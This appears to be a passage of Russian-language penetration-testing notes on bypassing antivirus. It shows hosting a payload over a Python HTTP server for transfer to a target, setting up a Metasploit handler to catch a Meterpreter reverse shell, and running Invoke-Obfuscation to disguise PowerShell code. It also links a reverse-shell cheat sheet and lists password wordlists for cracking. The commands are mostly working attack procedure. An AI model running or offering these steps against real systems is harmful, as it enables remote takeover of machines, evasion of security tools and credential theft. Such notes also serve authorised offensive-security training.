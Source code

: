 ### Перенос payload на цель:
```bash
cd ~/Desktop/AVBypass
python3 -m http.server 80
```
📌 Метод переноса зависит от ситуации.

### Приём обратной сессии:
```bash
service postgresql start && msfconsole -q
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <AttackerIP>  # тот же, что в payload
set LPORT <AttackerPort>
run
```

---

## 🎭 Code Obfuscation с Invoke-Obfuscation

🔗 GitHub: https://github.com/danielbohannon/Invoke-Obfuscation

### Установка PowerShell на Linux:
```bash
sudo apt-get install powershell -y
pwsh
```

### Импорт модуля:
```powershell
Import-Module ./Invoke-Obfuscation.psd1
Invoke-Obfuscation
```

### Конфигурация обфускации:
```powershell
SET SCRIPTPATH {Path_To_Code}
AST
ALL
1
# Затем вставь обфусцированный код в новый .ps1 файл
```

---

🔗 Полезное:
- [Invoke-Obfuscation GitHub](https://github.com/danielbohannon/Invoke-Obfuscation)
- [Shell Reverse Cheat Sheet](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#powershell)

#Dictionaries
```
common_corporate_passwords.lst  
seasons.txt  
months.txt  
xato-net-10-million-passwords-1000.txt  
xato-net-10-million-passwords-10000.txt  
rockyou.txt
```
